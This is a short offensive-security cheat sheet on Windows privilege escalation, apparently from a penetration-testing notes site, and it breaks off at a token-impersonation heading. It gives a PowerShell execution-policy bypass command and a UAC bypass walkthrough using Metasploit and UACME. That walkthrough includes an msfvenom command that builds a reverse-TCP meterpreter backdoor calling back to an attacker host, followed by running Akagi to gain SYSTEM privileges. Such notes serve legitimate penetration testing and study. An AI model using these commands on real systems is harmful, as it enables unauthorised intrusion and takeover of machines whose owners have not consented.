 # Privilege Escalation

## <mark style="color:yellow;">Windows</mark>

{% hint style="info" %}
**Note**: if you have a valid user credential you can authenticate in windows target from SMB, RDP, WinRM
{% endhint %}

### <mark style="color:yellow;">Automation script</mark>

```batch
:: https://github.com/itm4n/PrivescCheck
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
```

### <mark style="color:yellow;">UAC Bypass</mark>

User Account Control (UAC) is a feature that enables a consent prompt for elevated activities.

Prerequisites:

1. User must be a member of the Administrators group. `net localgroup administrators`
2. Full interactive shell with the victim like meterpreter (a common nc.exe shell is not enough).

**(1) Metasploit**

```sh
search bypassuac
```

**(2) UACME**

```sh
# 1. Step
ps
migrate <PID explorer.exe>

# 2. Step - Upload Akagi (Akagi64.exe if x64)

# 3. Step - Create payload with msfvenom
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o backdoor.exe

# 4. Step - Start a listener (exploit/multi/handler)

# 5. Step - Run Akagi
Akagi64.exe 23 <payload_full_path> # NOTE FULL PATH

# Once run, we will get meterpreter session - getprivs/getsystem to get elevated privs
```

### <mark style="color:yellow;">Impersonate Tokens</mark>

**Metasploit - incognito**
